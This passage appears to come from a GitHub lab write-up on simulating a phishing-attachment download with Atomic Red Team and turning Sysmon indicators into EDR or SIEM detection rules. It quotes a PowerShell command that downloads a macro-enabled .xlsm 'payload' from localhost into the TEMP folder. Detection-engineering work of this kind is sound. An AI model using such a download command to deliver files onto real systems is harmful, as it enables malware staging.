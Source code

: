 Note that a `.xlsm` file was created

Navigating to the directory that the file was saved into, we can find the files that were downloaded.

![05screenshot09_1](https://github.com/user-attachments/assets/440972ae-8ad8-41e9-89b0-0461ab66fdc8)

`Invoke-AtomicTest <Mitre ID> -TestNumbers <no> -cleanup` to clean up files from previous tests

![05screenshot07](https://github.com/user-attachments/assets/044423c5-e2f3-4427-bf07-529f40e396e9)

**Alerting on the Atomic**

As we found multiple indicators of compromise through the Sysmon event log. We can use this information to create detection rules to include in our EDR, SIEM, IDS etc. These tools offer functionalities that allow analysts to import custom detection rules in formats such as Yara, Sigma, Snort etc.

Looking at the command line `"powershell.exe" & {$url = 'http://localhost/PhishingAttachment.xlsm' $url2 = 'http://localhost/PhishingAttachment.txt' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm Invoke-WebRequest -Uri $url2 -OutFile $env:TEMP\PhishingAttachment.txt}`

Analysing each command

- `Invoke-WebReqest` - uncommon for this command to run from a script behind the scenes
- `$url = 'http://localhost/PhishingAttachment.xlsm` - Attackers often use a specific malicious domain to host their payloads, including malicious URL in the Signma rule could help us detect that specific URL.
- `PhishingAttachment.xlsm` malicious payload download and saved on the system.

![05screenshot10](https://github.com/user-attachments/assets/80656bc6-ecf4-4736-848c-1c2bd44dbd09)
